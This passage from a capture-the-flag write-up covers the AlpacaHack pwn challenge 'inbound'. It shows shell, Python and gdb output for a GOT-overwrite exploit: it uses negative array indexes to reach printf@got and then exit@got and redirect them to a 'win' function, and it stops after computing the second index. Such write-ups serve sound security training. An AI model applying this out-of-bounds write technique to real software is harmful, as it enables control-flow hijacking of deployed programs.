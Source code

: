 To calculate the offset between `slot` and GOT function `printf` address, we can do like `(printf_got_address - slot_address) // 4`:

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/inbound/inbound)-[2024.11.04|12:56:14(HKT)]
└> python3
[...]
>>> slot = 0x404060
>>> (0x404010 - slot) // 4
-20
```

Function `win` address in decimal:

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/inbound/inbound)-[2024.11.04|12:59:37(HKT)]
└> objdump -d inbound | grep 'win' 
00000000004011d6 <win>:
```

```shell
>>> 0x4011d6
4198870
```

> Note: The reason why we're using decimal value is that the `scanf` function will only format integer values.

```shell
gef➤  r
[...]
index: -20
value: 4198870

Breakpoint 1, 0x000000000040133d in main ()
[...]
gef➤  x/gx 0x404010
0x404010 <printf@got.plt>:	0x00007fff004011d6
```

As we can see, we can't hijack GOT function `printf`. This is because the original value is 6 bytes long, but **the `win` function address is 3 bytes only**.

Ok, so we can only overwrite GOT function that only 3 bytes long.

**If we check the GOT functions, `exit` does match to our condition:**
```shell
gef➤  got
[...]
[0x404028] exit@GLIBC_2.2.5  →  0x401080
```

Nice! Let's try to overwrite GOT function `exit` with the `win` function address!

Index offset:

```shel
>>> (0x404028 - slot) // 4
-14
```
